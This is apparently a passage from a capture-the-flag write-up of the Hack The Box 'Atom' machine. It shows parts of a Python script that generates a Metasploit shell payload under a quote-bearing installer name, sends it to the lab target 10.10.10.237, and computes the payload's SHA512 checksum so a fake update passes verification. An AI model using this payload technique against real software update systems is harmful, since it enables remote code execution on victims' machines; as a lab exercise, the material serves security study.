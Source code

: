 ```python

        #generate shell payload
        gen_payload(ip, port, msf_payload, path)

        payload_path = path + "heedv1'Setup1.0.1.exe"
        print("Payload saved at: " + payload_path)
```

Now we can run following:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve -p "to-serve/heedv1'Setup1.0.1.exe" 10.10.10.237
IP Address on interface tun0: 10.10.14.39
Payload Path: to-serve/heedv1'Setup1.0.1.exe
Size: 73802
```

## Hashing

I added the hashing:

```python
def gen_checksum(filepath):
    """generate a sha512 hash of the file and base64 encode it"""

    #set a buffer size to hash in chunks
    BUF_SIZE = 65536

    sha512 = hashlib.sha512()

    with open(filepath, 'rb') as f:
        while True:
            data = f.read(BUF_SIZE)
            if not data:
                break
            sha512.update(data)

    b64 = base64.b64encode(sha512.digest()).decode('utf-8')

    print("Base64-encoded SHA512-sum of payload: " + b64)

    return b64
```

And verified the SHAs are the same:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve -p "to-serve/heedv1'Setup1.0.1.exe" 10.10.10.237
IP Address on interface tun0: 10.10.14.39
Payload Path: to-serve/heedv1'Setup1.0.1.exe
Size: 73802
GuCsEdujwJSyKwiLFFnDCE52cmLvXVgvjE0YyOap0Siwv4GFg1dRE+6PKF7wG7+UFeGZYKHQ2lOSf74qsXd+6A==
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ shasum -a 512 "to-serve/heedv1'Setup1.0.1.exe" | cut -d " " -f1 | xxd -r -p | base64
GuCsEdujwJSyKwiLFFnDCE52cmLvXVgvjE0YyOap0Siwv4GFg1dRE+6PKF7wG7+UFeGZYKHQ2lOS
f74qsXd+6A==
```
